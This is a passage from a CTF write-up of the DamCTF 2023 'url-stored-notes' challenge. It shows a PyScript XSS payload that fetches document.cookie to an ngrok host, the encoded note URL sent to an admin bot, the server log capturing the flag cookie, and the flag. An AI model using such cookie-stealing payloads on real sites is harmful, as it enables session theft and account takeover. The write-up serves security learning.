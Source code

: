 **Payload:**
```py
    notes = '''[{\"prompt\":\"import js;print(js.fetch('https://4726-{Redacted}.ngrok-free.app/?c=' + document.cookie))\",\"answer\":\"print(2+2)\",\"tag\":\"py-script\"}]'''
```

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:15:34(HKT)]
└> python3 encode_notes.py
Before encoded: [{"prompt":"import js;print(js.fetch('https://4726-{Redacted}.ngrok-free.app/?c=' + document.cookie))","answer":"print(2+2)","tag":"py-script"}]
After encoded: /Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ACPAIRdAC2ewEcDz40ozKl1G8Hi7NGQkjZaYHM2dmMBzBphloFBYPBoOI/l8wzUcb0SUKwpyR7GQL0iy1XsO0cLi8KJ5xVbQxwhnGL90msB8xdPvTD/zN0NUkzbO3hUSuvxmAvpAONkOKQbWEAPyu76qHRlzwp2PEgtf6Zz4UIC7vqCs1PAIdFgAAB8pYqWMYhDzQABoAGQAQAAEGerW7HEZ/sCAAAAAARZWg==
After decoded: [{'prompt': "import js;print(js.fetch('https://4726-{Redacted}.ngrok-free.app/?c=' + document.cookie))", 'answer': 'print(2+2)', 'tag': 'py-script'}]
```

This payload will send a GET request to our ngrok port forwarding address, with parameter `c` and it's value is all cookies.

**Send the encoded note URL to admin bot:**
```
http://url-stored-notes.chals.damctf.xyz/#/Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ACPAIRdAC2ewEcDz40ozKl1G8Hi7NGQkjZaYHM2dmMBzBphloFBYPBoOI/l8wzUcb0SUKwpyR7GQL0iy1XsO0cLi8KJ5xVbQxwhnGL90msB8xdPvTD/zN0NUkzbO3hUSuvxmAvpAONkOKQbWEAPyu76qHRlzwp2PEgtf6Zz4UIC7vqCs1PAIdFgAAB8pYqWMYhDzQABoAGQAQAAEGerW7HEZ/sCAAAAAARZWg==
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DamCTF-2023/images/Pasted%20image%2020230408180134.png)

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:03:10(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [08/Apr/2023 17:18:03] "GET /?c=flag=dam{waaatttt_t3xtc0nt3nt_n0t_always___s3cur3_bruuuhhhhhhh} HTTP/1.1" 200 -
```

Nice!! We steal the admin bot's flag cookie!

- **Flag: `flag=dam{waaatttt_t3xtc0nt3nt_n0t_always___s3cur3_bruuuhhhhhhh}`**

## Conclusion

What we've learned:

1. PyScript XSS